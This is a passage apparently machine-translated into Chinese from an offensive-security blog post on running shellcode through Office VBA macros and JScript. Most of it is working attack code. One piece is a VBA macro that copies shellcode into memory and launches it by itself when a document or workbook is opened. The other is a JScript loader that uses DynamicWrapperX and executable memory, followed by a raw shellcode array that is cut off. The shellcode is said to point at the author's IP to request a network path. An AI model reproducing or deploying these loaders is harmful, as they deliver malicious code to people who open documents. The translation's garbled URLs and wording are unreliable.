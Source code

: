 ```
        source = bShellcode(i)
        lResult = RtlMoveMemory(lpMemory + i, source, 1)
    Next i
    lResult = CreateThread(0, 0, lpMemory, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

[https://github . com/OsandaMalith/Shellcodes/blob/master/create file/create file . VBA](https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.vba)

# VBS 和 JS 内部的外壳代码

subTee 用 JS 和 DynamicWrapperX 做了很多种类的研究。您可以使用 DynamicWrapperX DLL 找到 POC。
[http://subtox 10 . blogspot . com/2016/09/shellcode-via-jscript-VBScript . html](http://subt0x10.blogspot.com/2016/09/shellcode-via-jscript-vbscript.html)
在此基础上我将 shellcode 移植到了 JS 和 VBS。有趣的是，我们可以在 html 和。hta 格式。
请注意，以下外壳代码指向我的 IP。

# JScript

```
/*
 * Author : Osanda Malith Jayathissa ([@OsandaMalith](http://twitter.com/OsandaMalith))
 * Title: Shellcode to request a non-existing network path
 * Website: [https://osandamalith.com](https://osandamalith.com)
 * Shellcode : [https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html](https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html)
 * Based on subTee's JS: [https://gist.github.com/subTee/1a6c96df38b9506506f1de72573ceb04](https://gist.github.com/subTee/1a6c96df38b9506506f1de72573ceb04)
 */
DX = new ActiveXObject("DynamicWrapperX"); 
DX.Register("kernel32.dll", "VirtualAlloc", "i=luuu", "r=u");
DX.Register("kernel32.dll","CreateThread","i=uullu","r=u" );
DX.Register("kernel32.dll", "WaitForSingleObject", "i=uu", "r=u");

var MEM_COMMIT = 0x1000;
var PAGE_EXECUTE_READWRITE = 0x40;

var sc = [
0xe8, 0xff, 0xff, 0xff, 0xff, 0xc0, 0x5f, 0xb9, 0x55, 0x03, 0x02, 0x02, 0x81, 0xf1, 0x02, 0x02, 0x02, 0x02, 0x83, 0xc7,
0x1d, 0x33, 0xf6, 0xfc, 0x8a, 0x07, 0x3c, 0x05, 0x0f, 0x44, 0xc6, 0xaa, 0xe2, 0xf6, 0xe8, 0x05, 0x05, 0x05, 0x05, 0x5e,
0x8b, 0xfe, 0x81, 0xc6, 0x29, 0x01, 0x05, 0x05, 0xb9, 0x02, 0x05, 0x05, 0x05, 0xfc, 0xad, 0x01, 0x3c, 0x07, 0xe2, 0xfa,
0x56, 0xb9, 0x8d, 0x10, 0xb7, 0xf8, 0xe8, 0x5f, 0x05, 0x05, 0x05, 0x68, 0x31, 0x01, 0x05, 0x05, 0xff, 0xd0, 0xb9, 0xe0,
0x53, 0x31, 0x4b, 0xe8, 0x4e, 0x05, 0x05, 0x05, 0xb9, 0xac, 0xd5, 0xaa, 0x88, 0x8b, 0xf0, 0xe8, 0x42, 0x05, 0x05, 0x05,
0x6a, 0x05, 0x68, 0x80, 0x05, 0x05, 0x05, 0x6a, 0x03, 0x6a, 0x05, 0x6a, 0x01, 0x68, 0x05, 0x05, 0x05, 0x80, 0x68, 0x3e,
0x01, 0x05, 0x05, 0xff, 0xd0, 0x6a, 0x05, 0xff, 0xd6, 0x33, 0xc0, 0x5e, 0xc3, 0x33, 0xd2, 0xeb, 0x10, 0xc1, 0xca, 0x0d,
0x3c, 0x61, 0x0f, 0xbe, 0xc0, 0x7c, 0x03, 0x83, 0xe8, 0x20, 0x03, 0xd0, 0x41, 0x8a, 0x01, 0x84, 0xc0, 0x75, 0xea, 0x8b,
```